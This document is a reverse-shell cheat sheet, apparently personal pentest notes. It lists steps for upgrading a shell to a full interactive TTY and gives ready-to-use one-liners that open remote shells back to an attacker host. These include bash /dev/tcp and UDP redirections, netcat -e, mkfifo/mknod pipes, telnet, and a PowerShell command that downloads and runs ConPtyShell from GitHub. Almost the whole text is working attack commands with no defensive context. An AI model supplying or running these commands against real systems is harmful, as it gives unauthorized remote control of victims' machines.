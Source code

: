 # Linux fully interactive tty
1. use python 2 or python3 `pty` module's `spawn` function
	1. `python -c 'import pty; pty.spawn("/bin/bash")'`
	2. `python3 -c 'import pty; pty.spawn("/bin/bash")'`
2. use `CTRL + Z` to background the shell
3. use `stty size` to view the terminal dimensions *to be used in step #7*
4. use `stty raw -echo` then `fg`
5. type `reset` even if you don't see visual feedback
6. when the reverse shell is back, set your `SHELL` and `TERM` environement variables
- `export SHELL=/bin/bash && export TERM=xterm-256color`
7. set terminal size using `stty rows <number> columns <number>`
- `size=$(stty size); rows=$(echo $size | cut -d' ' -f1); cols=$(echo $size | cut -d' ' -f2); echo "stty rows $rows columns $cols"`

# Windows better tty using `rlwrap`
1. install rlwrap using `apt install rlwrap`
2. using rlwrap before your standard listener `rlwrap nc -lvnp <LPORT>`

# Windows fully interactive (Windows 10 / Windows Server 2019 version 1809)
## on attacker machine:
`stty raw -echo; (stty size; cat) | nc -lvnp <LPORT>`
## on victim machine:
`IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell <LHOST> <LPORT>`

# Bash
1. `bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1`
2. `exec 5<>/dev/tcp/<LHOST>/<LPORT>; cat <&5 | while read line; do $line 2>&5 >&5; done`

## Bash/Netcat:
`nc -nv <LHOST> <LPORT> -e /bin/bash`

## mkfifo:
`rm /tmp/pipe; mkfifo /tmp/pipe; /bin/sh -i < /tmp/pipe 2>&1 | nc <LHOST> <LPORT> > /tmp/pipe; rm /tmp/pipe`

## mknod:
`rm /tmp/pipe; mknod /tmp/pipe p 2>/dev/null && nc <LHOST> <LPORT> 0</tmp/pipe | /bin/bash 1>/tmp/pipe; rm /tmp/pipe`

## Bash UDP
1. victim: `sh -i >& /dev/udp/<LHOST>/<LPORT> 0>&1`
2. attacker: `nc -u -lvp <LPORT>`

# Telnet
`rm /tmp/pipe; mknod /tmp/pipe p && telnet <LHOST> <LPORT> 0</tmp/pipe | /bin/bash 1>/tmp/pipe; rm /tmp/pipe`